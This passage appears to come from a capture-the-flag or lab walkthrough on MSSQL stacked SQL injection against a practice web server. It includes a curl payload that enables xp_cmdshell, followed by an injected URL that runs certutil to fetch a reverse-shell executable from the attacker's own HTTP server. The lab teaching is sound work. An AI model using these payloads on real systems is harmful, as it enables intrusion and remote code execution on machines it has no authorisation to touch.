 ###### Converting these into a single stacked SQLi payload will look like this:
```bash
curl -s -vv "http://MACHINE_IP/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --"
```

### Remote Code Execution

Let's confirm if we have remote code execution by attempting to execute **certutil.exe** on the target machine. This command is a native Windows command-line program installed as part of Certificate Services. It's handy in engagements because it is a binary signed by Microsoft and allows us to make HTTP/s connections. In our scenario, we can use it to make an HTTP request to download a file from a web server that we control to confirm that the command was executed. To set this up, let's create a malicious payload using **MSFvenom**, allowing us to eventually upgrade our SQL-injected "shell" into a more standard **reverse shell**.

You can think of a reverse shell as the remote computer (the Best Festival web server) initiating a connection back to our AttackBox, which we're listening for. Once the connection is established, we can gain control of the remote system and interact with the target machine directly. This is the opposite of a typical remote access scenario, where the user is the client and the target machine is the server.


It's time to use our stacked query to call **xp_cmdshell** and execute the **certutil.exe** command on the target to download our payload.

```sql
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --!
```

**Note:** Ensure to fill in your AttackBox's IP address in the URL.

The above SQL statement will call **certutil** to download the **reverse.exe** file from our Python HTTP server and save it to the Windows temp directory for later use. After requesting the above URL to execute the stacked query, we should immediately know if we were successful by checking the output of our HTTP server. There should be a request for **reverse.exe**





























